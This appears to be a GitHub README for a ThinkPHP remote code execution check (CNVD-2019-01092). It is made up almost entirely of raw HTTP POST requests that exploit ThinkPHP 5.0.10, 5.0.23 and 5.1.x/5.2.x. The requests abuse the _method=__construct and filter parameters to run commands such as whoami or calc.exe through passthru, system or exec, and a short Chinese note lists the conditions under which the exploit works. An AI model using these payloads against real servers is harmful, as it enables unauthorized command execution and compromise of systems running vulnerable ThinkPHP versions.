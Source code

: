 # thinkphp_rce_check

CNVD-2019-01092

## thinkphp 5.0.10 版本 

```
POST /tp5010/public/index.php?s=index/index/index HTTP/1.1
Host: 10.67.9.24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.67.9.24/tp/public/index.php?s=index/index/index/trytr
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Connection: close
Upgrade-Insecure-Requests: 1

s=whoami&filter%5B%5D=passthru&_method=__construct&method=
```

## thinkphp 5.0.23版本

```
POST /tp5023/public/index.php?s=captcha HTTP/1.1
Host: 10.67.9.24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 80

_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=whoami
或者
_method=__construct&filter[]=system&method=GET&get[]=whoami
```

## thinkphp 5.1.x/5.2.x

利用条件:生产模式/即忽略异常提示，否则会报500错误

```
POST /tp5132/public/index.php HTTP/1.1
Host: 10.67.8.117:8889
Content-Length: 58
Cache-Control: max-age=0
Origin: http://10.67.9.24
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://10.67.9.24/tp5132/public/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

c=exec&f=calc.exe&&_method=filter&
```
设置`error_reporting(0);`版本不同，位置不一样，一般在start.php或者index.php
![Snipaste_2019-01-15_17-40-44.png](https://i.loli.net/2019/01/15/5c3dbc72305e1.png)
![Snipaste_2019-01-15_17-41-27.png](https://i.loli.net/2019/01/15/5c3dbccf8756e.png)
![Snipaste_2019-01-15_17-40-44.png](https://i.loli.net/2019/01/15/5c3dbc72305e1.png)

